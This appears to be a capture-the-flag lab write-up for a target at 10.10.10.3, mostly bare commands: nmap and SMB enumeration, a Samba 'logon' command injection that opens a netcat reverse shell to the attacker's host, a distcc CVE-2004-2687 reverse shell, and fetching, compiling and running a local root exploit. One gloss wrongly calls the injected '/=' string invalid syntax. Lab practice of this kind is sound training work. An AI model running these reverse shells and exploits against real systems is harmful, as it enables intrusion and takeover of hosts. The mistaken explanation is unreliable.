 #   CMD 

```
nmap -sC -sV 10.10.10.3
```
-sC: run default nmap scripts <br>
-sV: detect service version

```
ls /usr/share/nmap/scripts/ftp*
```
/usr/share/nmap/scripts/ftp-anon.nse<br>
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse<br>
/usr/share/nmap/scripts/ftp-bounce.nse <br>
/usr/share/nmap/scripts/ftp-syst.nse<br>
/usr/share/nmap/scripts/ftp-brute.nse
/usr/share/nmap/scripts/ftp-libopie.nse <br>
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
<h5>/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse</h5>

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```
```
ls /usr/share/nmap/scripts/ssh*
```
```
smbclient -L 10.10.10.3
```
```
smbmap -H 10.10.10.3
```

#   Exploitation #1: Samba

```
nc -nlvp 4444
```
```
smbclient //10.10.10.3/tmp
```
```
logon "/=`nohup nc -nv 10.10.14.20 4444 -e /bin/sh`"
```

logon   ---->>>> is likely the name of a function or command that is being called. <br>
"/="    ---->>>> is not a valid shell syntax and it's not clear what the intention of this string is. <br>
nohup   ---->>>>  is a command that allows a process to continue running in the background even if the user logs out or the terminal is closed. <br>
-nc     ---->>>>  is the netcat command, which is a utility for reading and writing data across network connections. <br>
-nv     ---->>>> are options for nc, which instruct it to use verbose output and to not use DNS for resolving the target IP address. <br>
-e      ---->>>>  is an option for nc that specifies the command to execute after the connection is established. <br>
/bin/sh ---->>>>  is the command that will be executed on the target machine after the reverse shell connection is established. It launches a shell session, allowing the attacker to interact with the target machine's command line. <br>
    
```
python3 -c 'import pty;pty.spawn("/bin/bash")' 
```
#   Exploitation #2: Distcc

```
nc -nlvp 4444
```
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.20 4444 -e /bin/bash'"
```
```
searchsploit -m 8572.c
```
```
python -m SimpleHTTPServer 9005
```
```
wget http://10.10.14.20:5555/8572.c
```
```
gcc 8572.c -o 8572  
```
```
ps -aux | grep devd
```
```
nc -nlvp 4445
```
```
./8572 2661
```
